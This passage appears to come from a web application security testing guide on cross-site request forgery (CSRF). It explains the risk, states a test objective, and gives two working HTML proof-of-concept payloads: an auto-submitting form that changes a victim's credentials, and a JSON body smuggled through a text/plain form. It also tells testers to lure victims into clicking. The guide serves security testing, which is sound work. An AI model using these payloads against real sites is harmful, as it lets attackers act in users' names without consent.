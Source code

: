 Self-vulnerable applications, i.e. applications that are used both as attack vector and target (such as web mail applications), make things worse. Since users are logged in when they read their email messages, a vulnerable application of this type can allow attackers to perform actions such as deleting messages or sending messages that appear to originate from the victim.

## Test Objectives

- Determine whether it is possible to initiate requests on a user's behalf that are not initiated by the user.

## How to Test

Audit the application to ascertain if its session management is vulnerable. If session management relies only on client-side values (information available to the browser), then the application is vulnerable. "Client-side values" refers to cookies and HTTP authentication credentials (Basic Authentication and other forms of HTTP authentication; not form-based authentication, which is an application-level authentication).

Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via JavaScript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1. Create an HTML page similar to that shown below
2. Host the HTML on a malicious or third-party site
3. Send the link for the page to the victim(s) and induce them to click it.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
